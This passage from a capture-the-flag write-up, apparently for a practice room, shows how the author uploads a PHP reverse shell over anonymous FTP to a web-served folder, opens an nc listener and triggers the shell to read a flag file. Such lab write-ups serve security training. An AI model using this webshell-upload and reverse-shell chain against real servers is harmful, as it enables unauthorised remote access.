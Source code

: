 ## Getting a Foothold

I went to http://target.thm/files and it matches what is in the ftp folder on the ftp server. This means that I can upload a reverse shell using ftp and then have the webserver execute it.

I run the following command to put the php reverse shell in my directory:

```bash
$ /usr/share/webshells/php/php-reverse-shell.php shell.php
```

I alter the shell.php file with the attack machine's ip address and port 4444.

I connect to the ftp server and upload the file:

```bash
$ ftp target.thm
Connected to target.thm.
220 (vsFTPd 3.0.3)
Name (target.thm:root): ftp
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> cd ftp
250 Directory successfully changed.
ftp> put shell.php
local: shell.php remote: shell.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
5494 bytes sent in 0.00 secs (137.8812 MB/s)
```

I setup a listener on the attack machine by running:

```bash
$ nc -lnvp 4444
```

I then visited http://target.thm/files/ftp/shell.php

I have a shell. I'm in!

## What is the secret spicy soup recipe?

I get a stable shell using the [guide found here](../README.md#stable-shell).

The current folder is the root folder (/). I look around the folder and I see a file called recipe.txt. I run the cat command on the file and get the first flag:

```bash
$ cat recipe.txt
Someone asked what our main ingredient to our spice soup is today. I figured I can't keep it a secret forever and told him it was REDACTED.
```

